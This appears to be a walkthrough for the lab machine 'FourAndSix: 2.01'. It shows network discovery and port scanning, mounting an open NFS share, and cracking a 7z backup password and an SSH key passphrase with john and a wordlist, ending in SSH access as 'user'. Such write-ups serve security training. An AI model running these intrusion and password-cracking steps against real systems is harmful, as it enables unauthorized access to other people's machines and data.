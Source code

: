 # FourAndSix: 2.01

## 1.Get VM IP
```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:95:6e:f7       PCS Systemtechnik GmbH
192.168.56.110  08:00:27:41:81:5a       PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.603 seconds (98.35 hosts/sec). 3 responded
```
The IP address is `192.168.56.110`, let's enumerate it.


## 2.Enumeration
I first used rust scan which is alot faster than nmap to scan for top ports :
```bash
root@kali: rustscan -a 192.168.56.110 --range --top

Host is up, received arp-response (0.00054s latency).
Scanned at 2023-11-05 06:20:41 EST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
111/tcp  open  rpcbind syn-ack ttl 64
973/tcp  open  unknown syn-ack ttl 64
2049/tcp open  nfs     syn-ack ttl 64
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
```

then scanned the open ports with nmap :

```bash
root@kali: nmap -sC -sV -p22,111,973,2049 -v -oN nmap.out 192.168.56.110

Nmap scan report for 192.168.56.110
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3         2049/tcp   nfs
|   100003  2,3         2049/udp   nfs
|   100005  1,3          763/udp   mountd
|_  100005  1,3          973/tcp   mountd
973/tcp  open  mountd  1-3 (RPC #100005)
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
```

let's go for nfs first,

```bash
root@kali: showmount -e 192.168.56.110
       
Export list for 192.168.56.110:
/home/user/storage (everyone)
```

now mount it on your system :

```bash
root@kali: mount 192.168.56.110:/home/user/storage /mnt/tmp

root@kali: ls /mnt/tmp
backup.7z
```

when you want to unzip the file it asks for password and the only way to find it is to brute force the password

use the tool `7z2john` for this :

```bash
root@kali: 7z2john backup.7z > ziphash.txt

root@kali : john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 0 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 9488 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (backup.7z)     
1g 0:00:00:01 DONE (2023-11-05 06:31) 0.9708g/s 31.06p/s 31.06c/s 31.06C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
```
## 3.Gaining Shell

Having the password we try to unzip the file :

```bash
root@kali: 7za e backup.7z
```

two of the files are interesting :
- id_rsa
- id_rsa.pub

from id_rsa.pub we can see the what user is associated with this public key :

```bash
root@kali: cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
```

so the user `user` is bing to this key, we now just need to connect to server with the private key and user `user` :

```bash
root@kali: ssh -i id_rsa user@192.168.56.110
Enter passphrase for key 'id_rsa': 
```

but it needs the passphrase, we can use `ssh2john` for this one :

```bash
root@kali: ssh2john id_rsa > hash.txt

root@kali:  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678         (id_rsa)     
1g 0:00:00:01 DONE (2023-11-05 06:39) 0.8620g/s 13.79p/s 13.79c/s 13.79C/s 123456..jessica
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

now we can easily connect to server :

```bash
root@kali: ssh -i id_rsa user@192.168.56.110
Enter passphrase for key 'id_rsa': 
Last login: Sun Nov  5 12:11:12 2023 from 192.168.56.102
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)
```












